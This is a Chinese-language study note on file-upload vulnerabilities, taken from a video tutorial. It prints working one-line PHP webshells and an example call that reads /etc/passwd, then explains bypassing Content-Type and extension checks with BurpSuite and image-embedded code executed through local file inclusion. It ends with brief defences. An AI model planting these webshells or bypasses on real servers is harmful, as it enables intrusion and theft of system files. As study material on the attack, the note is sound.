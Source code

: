 ```yaml
---
title: Security-2
description: 文件上传漏洞
---
```


## 前言

本文是观看[此视频](https://www.bilibili.com/video/BV1g4411Y7Y4/)时的笔记

## 原理

如果有一些表单需要上传文件到服务器，并且服务器没做文件校验，就可以利用此能力向服务器植入木马

> 比如：假设服务器基于 PHP，如果我们成功上传了一个 PHP 文件到服务器，并拿到了它的路径，我们就可以访问这个路径，从而触发 PHP 脚本的执行

## WebShell

- 概念
  - 小马：一句话木马，整个 shell 代码量只有一行，一般是系统执行函数
  - 大马：代码量多，通常会进行二次编码加密
- 权限
  - 拿到 WebShell 之后，相当于从 PHP 执行各种命令，所以执行命令的用户为 Web 服务器的用户（比如`Apache`）

```php
# 使用PHP中的 `eval` 函数，可以执行PHP代码
<?php eval($_REQUEST['cmd']);?>
# 示例：curl xxx.php?cmd=phpinfo();

# 使用PHP中的 `system` 函数，可以使用Linux系统命令
<?php system($REQUEST['cmd']);?>
# 示例：curl xxx.php?cmd=cat /etc/passwd

# 使用中国菜刀之类的C/S架构的工具进行连接
<?php @eval($_POST['chopper']);?>
```

## 绕过简单检测

### Content-Type

如果服务器检测了上传的文件的`Content-Type` Header，可以使用 BurpSuite 进行绕过

BurpSuite 可以启动一个正向代理，可以修改请求内容

### 后缀名检测

如果服务器使用了后缀名检测，可以使用图片编辑工具，比如`edjpgcom`，可以在正常的图片中嵌入代码。或者用`copy`之类的命令编辑图片文件

嵌入代码后的图片仍然是图片，所以不会被服务器执行。但是使用【本地文件包含/LFI】就可以使服务器执行此文件，实现挂马

> 文件不要太大

## 防护

- 使用专业 WAF 过滤请求
- 增强服务器中的请求校验
- `grep`查文件内容
